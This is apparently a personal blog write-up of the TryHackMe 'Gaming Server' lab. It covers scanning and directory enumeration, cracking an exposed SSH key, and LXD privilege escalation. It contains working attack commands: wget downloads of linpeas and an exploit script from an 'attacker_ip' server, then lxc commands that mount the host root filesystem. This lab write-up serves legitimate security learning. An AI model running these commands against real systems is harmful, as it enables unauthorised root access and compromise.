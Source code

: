 ```yaml
---
title: Try Hack Me - Gaming Server
date: 2021-01-01 16:32 +0300
categories: [Try Hack Me]
tags: [linux, lxd privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- LXC or Linux Container

# Nmap

Start scanning!

<pre class="highlighter-rouge highlight">
Nmap scan report for 10.10.206.197
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/25%OT=22%CT=1%CU=34225%PV=Y%DS=2%DC=I%G=Y%TM=5FE63E
OS:D0%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.87 seconds
</pre>

Let's check the web page.

# Gobuster

<pre>
gobuster dir -u http://10.10.206.197/ -w /opt/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.206.197/
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
			Starting gobuster
===============================================================
/uploads (Status: 301)
/secret (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code> and <code class="language-plaintext highlighter-rouge">/secret</code>

# Web Page

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/uploads</code>, we will see

<img src="/assets/img/gamingserver_img/uploads.jpg">

The file name <code class="language-plaintext highlighter-rouge">dict.lst</code> soundes like we need to brute force something.
So I download it.

If we open the hidden directory <code class="language-plaintext highlighter-rouge">/secret</code>, we will see

<img src="/assets/img/gamingserver_img/secret.jpg">

After openning <code class="language-plaintext highlighter-rouge">secretKey</code> file

<img src="/assets/img/gamingserver_img/secretkey.jpg">

It is RSA private key. So download and crack it!

# John The Ripper

This link helped me with John and cracking password with RSA private key <a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a>

For brute forcing use <code class="language-plaintext highlighter-rouge">dict.lst</code> that we found before.

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.206.197</pre>

Now you can read User.txt

<img src="/assets/img/gamingserver_img/userflag.jpg">

# Privilage Escalation
Anh here i got stuck.. I tried to find <code class="language-plaintext highlighter-rouge">suid</code> files, but it wasn't the solution. And I found <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite">Linpeas</a>. It's really amazing thing! These tools search for possible local privilege escalation paths that you could exploit and print them to you with nice colors so you can recognize the misconfigurations easily. 

We must run this script on victim machine. And our actions are:

Create a python server in the folder where we have our <code class="language-plaintext highlighter-rouge">Linpeas</code> script stored

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

Download the script on the victim machine

<pre>*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh</pre>

Get the access permissions

<pre>
chmod +x linpeas.sh
./linpeas.sh</pre>

You know...The output was huge! It was so lot of details... I'll show you a part

<img src="/assets/img/gamingserver_img/linpeas.jpg">

I tried to something with sudo and I know that it doesn't help. So i googled <code class="language-plaintext highlighter-rouge">lxd</code>. And I found an <a href="https://www.hackingarticles.in/lxd-privilege-escalation/">article</a> which showed how to get root with <code class="language-plaintext highlighter-rouge">lxd</code>.

Download the build alpine from GitHub
<pre>
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine</pre>

After that we will get the tar.gz file which we must send to victim machine like we did it with <code class="language-plaintext highlighter-rouge">linpeas.sh</code>

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>cd /tmp
*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz</pre>

And typed/copied following commands

<pre>
lxc image import ./alpine-v3.12-x86_64-20201225_2324.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
</pre>

Now you are root!

<pre>
mnt/root/root
ls
root.txt
cat root.txt
</pre>

<img src="/assets/img/gamingserver_img/root_flag.jpg">

Your also can get root using the <a href="https://www.exploit-db.com/exploits/46978">report</a> from <code class="language-plaintext highlighter-rouge">Exploit Database</code>

Step 1: Download build-alpine

<pre>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine</pre>

Step 2: Build alpine (as root user)

<pre>bash build-alpine</pre>

Step 3: Create an <code class="language-plaintext highlighter-rouge">.sh</code> file with code on <a href="https://www.exploit-db.com/exploits/46978">Exploit Database</a> website. Move <code class="language-plaintext highlighter-rouge">tar.gz</code> and <code class="language-plaintext highlighter-rouge">exploit.sh</code> files to victim machine. Run this script and you will get root.

Create a python server 

<pre>*ATTACKER MACHINE* sudo python3 -m http.server</pre>

I moved to <code class="language-plaintext highlighter-rouge">/tmp</code> folder and download the script on the victim machine.

<pre>
*VICTIM MACHINE*
cd /tmp 
wget attacker_ip:8000/alpine-v3.12-x86_64-20201225_2324.tar.gz
wget attacker_ip:8000/exploit.sh
chmod +x exploit.sh
./exploit.sh -f alpine-v3.12-x86_64-20201225_2324.tar.gz
</pre>

Step 4: Once inside the container, navigate to <code class="language-plaintext highlighter-rouge">/mnt/root</code> to see all resources from the host machine

# Userful for me references

<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://www.hackingarticles.in/lxd-privilege-escalation/">Lxd Privilege Escalation</a></div>
<div><a href="https://www.exploit-db.com/exploits/46978">Ubuntu 18.04 - 'lxd' Privilege Escalation </a></div>
